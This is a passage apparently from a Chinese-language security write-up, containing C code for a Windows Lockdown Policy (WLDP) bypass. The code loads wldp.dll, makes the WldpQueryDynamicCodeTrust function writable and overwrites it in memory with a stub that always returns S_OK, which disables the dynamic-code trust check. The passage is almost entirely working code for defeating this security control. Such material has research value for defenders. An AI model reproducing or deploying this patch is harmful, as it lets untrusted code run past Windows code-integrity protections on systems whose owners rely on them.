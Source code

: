 ```
      CloseHandle(file);
    `}`
    return hr == S_OK;
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01038852eac7736eea.png)



## 0x0B WLDP绕过：Patch代码

我们可以使用桩（stub）代码来覆盖该函数，始终返回`S_OK`。

```
// fake function that always returns S_OK
static HRESULT WINAPI WldpQueryDynamicCodeTrustStub(
    HANDLE fileHandle,
    PVOID  baseImage,
    ULONG  ImageSize)
`{`
    return S_OK;
`}`

static VOID WldpQueryDynamicCodeTrustStubEnd(VOID) `{``}`

static BOOL PatchWldp(VOID) `{`
    BOOL    patched = FALSE;
    HMODULE wldp;
    DWORD   len, op, t;
    LPVOID  cs;

    // load wldp
    wldp = LoadLibrary("wldp");

    if(wldp != NULL) `{`
      // resolve address of function to patch
      cs = GetProcAddress(wldp, "WldpQueryDynamicCodeTrust");

      if(cs != NULL) `{`
        // calculate length of stub
        len = (ULONG_PTR)WldpQueryDynamicCodeTrustStubEnd -
          (ULONG_PTR)WldpQueryDynamicCodeTrustStub;

        // make the memory writeable
        if(VirtualProtect(
          cs, len, PAGE_EXECUTE_READWRITE, &amp;op))
        `{`
          // over write with stub
          memcpy(cs, &amp;WldpQueryDynamicCodeTrustStub, len);

          patched = TRUE;

          // set back to original protection
          VirtualProtect(cs, len, op, &amp;t);
        `}`
      `}`
    `}`
    return patched;
`}`
```
